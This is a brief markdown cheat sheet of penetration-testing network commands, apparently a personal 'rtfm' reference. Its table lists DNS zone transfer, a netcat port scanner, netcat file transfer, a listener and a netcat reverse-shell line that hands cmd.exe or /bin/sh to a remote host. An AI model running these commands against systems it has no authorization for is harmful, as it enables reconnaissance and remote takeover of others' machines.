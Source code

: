 # rtfm

## network

<table>
  <tr>
    <th>command</th>
	<th>description</th>
  </tr>
  <tr>
    <td>host -t ns <i>domain</i></td>
    <td>ask the name servers for a domain</td>
  </tr>
  <tr>
    <td>host -l <i>domain nameServer</i></td>
    <td>dns zone transfer</td>
  </tr>
  <tr>
    <td>nc <i>ip port</i> -e <i>shell</i></td>
    <td>start reverse shell: cmd.exe, /bin/sh</td>
  </tr>
  <tr>
    <td>nc -l -p <i>port</i></td>
    <td>start listener</td>
  </tr>
  <tr>
    <td>nc -v -n -z -w1 <i>ip startPort</i> - <i>endPort</i</td>
    <td>tcp port scanner</td> 
  </tr>
  <tr>
    <td>nc -l -p <i>port fileName</i><br>nc -w3 <i>ip port fileName</td>
    <td>file transfers</td>
  </tr>
</table>
<!--stackedit_data:
eyJoaXN0b3J5IjpbNDYyODUzMTAzLC0xOTY2NTg4NTE1XX0=
-->